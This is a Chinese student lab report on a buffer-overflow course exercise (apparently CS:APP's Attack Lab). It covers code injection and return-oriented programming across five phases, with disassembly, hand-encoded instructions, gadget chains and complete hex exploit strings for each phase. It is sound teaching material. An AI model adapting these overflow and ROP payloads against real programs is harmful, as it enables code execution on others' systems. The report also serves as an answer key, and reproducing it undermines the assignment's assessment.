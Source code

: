 # Attack Lab 实验报告

## 实验目的

1. 了解攻击者如何从缺乏缓冲区溢出防护的程序中寻找安全漏洞；
2. 了解如何利用编译器和操作系统提供的特性，编写更加安全的程序；
3. 理解栈的原理，以及 x86-64 传参机制；
4. 理解 x86-64 指令的编码方式；
5. 练习使用 GDB 和 OBJDUMP。

## 实验原理

### 代码注入（Code injection）

对于栈的起始地址在每次运行时都不改变的程序，如果该程序接受长度不定的用户输入，并将用户输入存储于位于栈的大小固定的缓冲区中，那么攻击者可以精心设计输入，在造成缓冲区溢出的同时，修改上层栈的内容，达成返回到特定代码块等效果；如果程序允许执行存储于栈中的指令，攻击者还可以在输入中添加指令，并使这些指令得到执行。

### 面向返回编程（Return-oriented programming）

如果栈的起始地址在每次运行时不固定，或者不允许执行存储于栈中的指令，那么代码注入的难度将会加大。但是，在这一情况下，攻击者仍然有机会拼凑原本已经位于程序中的代码片段，进而通过在上层栈中覆写对应于各代码片段的返回地址的序列，达到执行特定代码的目的。

## 实验过程

### Phase 1（CTARGET）

目标：从 `getbuf()` 返回到 `touch1()`。

首先检查 `getbuf()` 的汇编实现：
```
00000000004017e7 <getbuf>:
  4017e7:	48 83 ec 18          	sub    $0x18,%rsp
  4017eb:	48 89 e7             	mov    %rsp,%rdi
  4017ee:	e8 7e 02 00 00       	callq  401a71 <Gets>
  4017f3:	b8 01 00 00 00       	mov    $0x1,%eax
  4017f8:	48 83 c4 18          	add    $0x18,%rsp
  4017fc:	c3                   	retq
```

第一条指令分配了 24 字节的栈空间作为缓冲区，据此攻击时可先用 24 个零字节填充该缓冲区（下同）。

再检查 `touch1()` 的地址：
```
00000000004017fd <touch1>:
```

综上，构造的二进制串可为：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
fd 17 40 00 00 00 00 00
```

### Phase 2（CTARGET）

目标：从 `getbuf()` 返回到 `touch2()`。要传入一个整数形式的 cookie，作为 `touch2()` 所要求的参数。

首先构造指令，将 `%edi` 的值赋为 cookie。cookie 的值为 0x4ad753f3，据此设计指令：
```
mov $0x4ad753f3, %edi
retq
```

以上指令的编码结果为：
```
bf f3 53 d7 4a c3
```

现在要将以上编码结果存入栈中并执行。用 GDB 查询得 `getbuf()` 执行起始的栈顶地址为 0x000000005561d550，于是考虑在这一地址覆写地址值 0x000000005561d558，再在地址 0x000000005561d558 覆写自定义代码。执行上述编码结果前，还应先设置 `%rsp` 为位于上层栈中的另一地址，并在这一地址覆写 `touch2()` 的地址。设计为 `%rsp` 赋值的指令：
```
add $0x10, %rsp
```

以上指令的编码结果为：
```
48 83 c4 10
```

`touch2()` 的地址为 0x0000000000401829。综上，构造的二进制串可为：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
58 d5 61 55 00 00 00 00
48 83 c4 10 bf f3 53 d7
4a c3 00 00 00 00 00 00
29 18 40 00 00 00 00 00
```

### Phase 3（CTARGET）

目标：从 `getbuf()` 返回到 `touch3()`。要传入一个字符串形式的 cookie，作为 `touch3()` 所要求的参数。

首先选取上层栈的某一位置存放 cookie 对应的空终止字符串。这里选取地址 0x000000005561d570（`getbuf()` 起始栈地址高 32 字节处），同时空终止字符串的二进制表示如下：
```
34 61 64 37 35 33 66 33 00
```

其余部分与 Phase 2 类似，但将 `%rdi` 的值赋为上述字符串所处地址，并用 `touch3()` 的地址替换 `touch2()` 的地址。设计为 `%rdi` 赋值的指令：
```
mov $0x000000005561d570, %rdi
```

以上指令的编码结果为：
```
48 c7 c7 70 d5 61 55
```

`touch3()` 的地址为 0x000000000040193a。综上，构造的二进制串可为：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
58 d5 61 55 00 00 00 00
48 83 c4 10 48 c7 c7 70
d5 61 55 c3 00 00 00 00
3a 19 40 00 00 00 00 00
34 61 64 37 35 33 66 33
00
```

### Phase 4（RTARGET）

目标：同 Phase 2，但程序为 RTARGET。

在 RTARGET 中，将 cookie 存入寄存器的唯一方法是将 cookie 覆写到栈中，并执行 `popq` 指令。在 gadget farm 中找到了如下几条以 `popq` 指令开头并以 `ret` 结尾的 gadget：
```
# At 0x00000000004019e8
pop %rax
nop
retq
```
```
# At 0x00000000004019ed
pop %rsi
mov %rax, %rdi
retq
```

没有找到 `pop %rdi`，因此还要寻找 `mov` 指令。找到了如下几条：
```
# At 0x00000000004019ee
mov %rax, %rdi
retq
```
```
# At 0x0000000000401a6d
mov %rsp, %rax
nop
retq
```

据此，可先执行 `pop %rax`，再执行 `mov %rax, %rdi`。另外，`touch2()` 的地址为 0x0000000000401829。综上，构造的二进制串可为：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
e8 19 40 00 00 00 00 00
f3 53 d7 4a 00 00 00 00
ee 19 40 00 00 00 00 00
29 18 40 00 00 00 00 00
```

### Phase 5（RTARGET）

目标：同 Phase 3，但程序为 RTARGET。

在 RTARGET 中，不能事先获知栈地址，只能透过 `%rsp` 在运行时获知。因此要将 cookie 字符串的地址存入寄存器，就必须在某一时刻访问 `%rsp` 的值。

现在找到了一条加法指令：
```
# At 0000000000401a11
lea (%rdi,%rsi,1), %rax
retq
```

于是可以考虑将 `getbuf()` 执行起始的栈顶地址和 cookie 地址相对栈顶地址的偏移量（可事先确定）存入 `%rdi` 和 `%rsi`。除了加法指令，目前还有以下线索：

1. 赋值链：`%rsp -> %rax -> %rdi`；

2. 可通过 `pop %rsi` 给 `%rsi` 赋值。

那么可以设计如下指令：
```
# At 0x0000000000401a6d
mov %rsp, %rax
nop
# At 0x00000000004019ed
pop %rsi
mov %rax, %rdi
# At 0x0000000000401a11
lea (%rdi,%rsi,1), %rax
# At 0x00000000004019ee
mov %rax, %rdi
```

`touch3()` 的地址为 0x000000000040193a。综上，构造的二进制串可为：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
6d 1a 40 00 00 00 00 00
ed 19 40 00 00 00 00 00
28 00 00 00 00 00 00 00
11 1a 40 00 00 00 00 00
ee 19 40 00 00 00 00 00
3a 19 40 00 00 00 00 00
34 61 64 37 35 33 66 33
00
```

## 心得

Visual Studio Code 有一个正则表达式文本搜索功能，可以批量搜索指令，这一功能在 Phase 4 和 Phase 5 中给我提供了很大的帮助。
